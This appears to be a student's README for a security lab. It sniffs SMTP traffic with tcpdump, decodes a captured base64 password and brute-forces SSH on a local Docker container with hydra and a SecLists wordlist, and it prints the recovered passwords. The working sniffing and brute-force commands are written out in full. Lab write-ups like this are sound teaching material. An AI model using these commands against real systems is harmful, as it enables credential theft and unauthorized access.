 ## Attack is the best defense

### For task 1 -


> Process
>> in `terminal 1`
```
sudo tcpdump -i eth0 port 587 -w smtp_capture.pcap
```

>> in `terminal 2`
```
./user_authenticating_into_server
```
when `./user_authenticating_into_server` finishes executing, stop process in `terminal 1`

then
`tcpdump -A -r smtp_capture.pcap` to inspect the sniffed data

#### Result
I got `bXlwYXNzd29yZDk4OTgh` as the probable password

using `echo "bXlwYXNzd29yZDk4OTgh" | base64 --decode` I got `mypassword9898!` as the password


### For task 2 -

> Process
>> After starting the docker container/server -
```sudo docker run -p 2222:22 -d -ti sylvainkalache/264-1```
and cleaning the ./password_dictionary.txt file (retaining only passwords of char. length 11) -
```sed -i '/^.\{11\}$/!d' password_dictionary.txt```

I used
```hydra -l sylvain -P ./password_dictionary.txt -s 2222 ssh://127.0.0.1```

#### Result
I got the hydra response
```
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-07-07 13:55:48
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 22495 login tries (l:1/p:22495), ~1406 tries per task
[DATA] attacking ssh://127.0.0.1:2222/
[2222][ssh] host: 127.0.0.1   login: sylvain   password: password123
1 of 1 target successfully completed, 1 valid password found
```
with `password123` as the password

### Resources
password_dictionary.txt source is the Kaggle bruteforce-database-password-dictionaries originally named
`1000000-password-seclists.txt` - [Download Repo](https://www.kaggle.com/datasets/taranvee/bruteforce-database-password-dictionaries?resource=download)
